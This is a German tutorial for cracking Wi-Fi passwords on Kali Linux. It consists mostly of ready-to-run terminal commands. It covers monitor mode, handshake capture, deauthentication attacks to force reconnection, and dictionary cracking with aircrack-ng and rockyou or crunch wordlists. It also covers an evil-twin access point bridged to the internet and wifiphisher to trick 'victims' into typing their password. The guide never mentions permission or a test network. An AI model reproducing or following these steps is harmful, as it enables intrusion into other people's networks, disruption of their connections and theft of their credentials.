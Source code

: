 WLAN Passwörter hacken

Betriebssystem: Kali Linux

Es ist nicht zwingend notwendig Kali Linux zu nutzen, allerdings sind bei Kali Linux die notwendigen Programme bereits vorinstalliert.



WICHTIG:
Bei den Bezeichnungen der WLAN-Module kann es zu Abweichungen kommen.
"mon" steht für den Monitor-Mode, daher wird in diesem Fall bei den Befehlen immer "Wlan0mon" NACH DER AKTIVIERUNG DES MONITOR-MODUS verwendet !


BEFEHLE:
Befehle müssen im Terminal ausgeführt werden und sind mit einem "$" gekennzeichnet.



Schritt 1

$ ifconfig
$ iwconfig
$ sudo airmon-ng check
$ sudo airmon-ng check kill
$ sudo airmon-ng start wlan0


Schritt 2

In einem beliebigen Verzeichnis (z.B. ~ Dokumente) einen Ordner anlegen und das Terminal in diesem Ordner öffnen.
Somit werden alle Dateien automatisch in diesem Ordner gespeichert.


Schritt 3

$ sudo airodump-ng wlan0mon

----
so würde ein gewünschter output aussehen:
SSID	AUTH		ENC		CH	BSSID (MAC)	MB

Name	Verifizierung	z.B.WPA2	Zahl	MAC-Aresse	Zahl
----
(mit ^C beenden)

Mit diesem Befehl kann ein bestimmtes WLAN beobachtet werden:
$ sudo airodump-ng wlan0mon -d *HIER DIE MAC-ADRESSE DES WLAN-ROUTERS*


Nun muss ein belibiges Gerät mit dem WLAN verbunden werden, damit Pakete übertragen werden:
(Es sollte eine Packetanzahl unter dem Punkt "Lost" zu sehen sein, während dem Aufbauen der WLAN Verbindung)
$ sudo airodump-ng -w hack1 -c 1 --bssid *HIER DIE MAC-ADRESSE DES WLAN-ROUTERS* wlan0mon

Optional: Um zu erzwingen, dass sich Geräte mit dem WLAN-ROUTER neu verbinden müssen:
$ sudo aireplay-ng --deauth 0 -a *HIER DIE MAC-ADRESSE DES WLAN-ROUTERS* wlan0mon



Wenn alles korrekt funktioniert hat und richtig ausgeführt wurde, sollten nun die Pakete abgefangen sein und das Passwort kann ermittelt werden.

-----------------------------------------------------------------------

Schritt 4 - Wireshark

In dem eigen angelegten Ordner:

$ ls
$ wireshark hack1-01.cap




Schritt 5

stop monitor mode:

$ iwconfig
$ sudo airmon-ng stop wlan0mon

Sollte nach dem Deaktivieren keine Möglichkeit mehr bestehen, sich mit einem WLAN zu verbinden, muss das Gerät ggf. neu gestartet werden.



Schritt 6

unzip rockyou.txt.gz in dem wordlist Verzeichnis von Kali Linux

$ locate rockyou
$ cd *hier das Verzeichnis*
$ sudo gzip -d rockyou.txt.gz
$ ls

$ aircrack-ng hack1-01.cap -w rockyou.txt


Nun wird das Passwort ermittelt. Je nach Stärke & Länge des Passwortes und der Leistung des PCs kann die dafür benötigte Zeit abweichen.


-------------------------------------
Erstellen einer eigenen Wordlist (hilfreich, wenn z.B. Länge und/oder die verwendeten Zeichen bekannt sind)

Optional kann auch eine eigene Wordlist angelegt werden, wenn z.B. bekannt ist, wie viele Zeichen min./max. und welche Zeichen genutzt werden. In diesem Beispiel würde mit diesem Befehl eine Worlist erstellt werden, wo jedes Passwort 9 Zeichen lang ist und aus den Buchstaben "abc" besteht.

Hinweis: Die Dauer sowie der benötigte Speicherplatz bei der Erstellung der Wordlist kann je nach Anzahl der Optionen (Länge, verwendete Buchstaben etc.) abweichen, hier also sicherstellen, dass genügend Speicher vorhanden ist.


$ crunch 9 9 abc -o wordlist-abc.lst


Den handshake mit der eigenen Wordlist ausführen:
$ aircrack-ng hack1-01.cap -w wordlist-abc.lst




---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------


WLAN hacken in Kali Linux

Einen Evil Twin erstellen, um ein Netzwerk aufzusetzen, bei dem der PC vorgibt, der WLAN-Router zu sein.


$ sudo apt install bridge-utils


Nun muss der WLAN-Adapter in Monitor-mode:

$ iwconfig
$ sudo airmon-ng check
$ sudo airmon-ng check kill
$ sudo airmon-ng start wlan0
$ iwconfig


Netzwerk "fälschen":
Hinweis: Signal von dem gefälschten Netzwerk ist natürlich deutlich schwächer, hier muss ggf. nachgeholfen werden. 

$ sudo airodump-ng wlan0mon
$ airbase-ng -a *mac-adresse(meist als "BSSID" gekennzeichnet)* --essid *SSID(Name)* -c *CHANNEL (z.B.1)* wlan0mon

WICHTIG:
Wenn bei der SSID Leerzeichen sind, dann muss ein "\" vor das Leerzeichen gesetzt werden.

Evil Twin ist jetzt gestartet, allerdings wird noch keine Internetverbindung zur Verfügung gestellt. !


Neues Terminal Fenster öffnen:
$aireplay-ng --deauth 100 -a *BSSID* wlan0mon

(100 = Anzahl der Aufforderung sich nicht mit dem originalen Netzwerk zu verbinden.)


Internetzugriff schaffen:
$ iwconfig
$ sudo brctl addbr evil
$ sudo brctl addif evil eth0 	(eth0 = die erste neue verbindung, die bei iwconfig angezeigt wird)
$ iwconfig (nun müsste auch ein "evil" zu sehen sein)

"evil" mit "at0" verbinden & IP einstellen:
$ sudo brctl addif evil at0
$ sudo ifconfig eth0 0.0.0.0 up
$ sudo ifconfig at0 0.0.0.0 up
$ sudo ifconfig evil up


$ sudo dhclient evil oder $ sudo dhclient3 evil (ausprobieren welches funktioniert)


Client (Handy, Tablet, PC, etc.) verbinden, um erfologreich zu sein.


-----------------------------------------------------------------
stop monitor mode:

$ iwconfig
$ sudo airmon-ng stop wlan0mon

Sollte nach dem Deaktivieren keine Möglichkeit mehr bestehen, sich mit einem WLAN zu verbinden, muss das Gerät ggf. neu gestartet werden.


---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------


wifiphisher

Das Tool "wifiphisher" erstellt quasi einen "evil Twin". Das Tool kopiert Netzwerke und wenn ein Opfer versucht,
sich mit einem geklonten Netzwerk zu verbinden, wird das Opfer nach der Eingabe des Passwortes gebeten.
Das Passwort wird dann sofort übertragen.


Es wird ein WLAN Adapter benötigt, der den "Monitor Mode" unterstützt.



$ sudo apt install wifiphisher

$ wifiphisher -h

$ ifconfig

$ iwconfig

$ sudo wifiphisher -i wlan0 -e WLAN-SSID


- Eine der 4 Optionen auswählen.
- Mit den Pfeiltasten, kann zwischen den 4 Optionen gewählt werden.








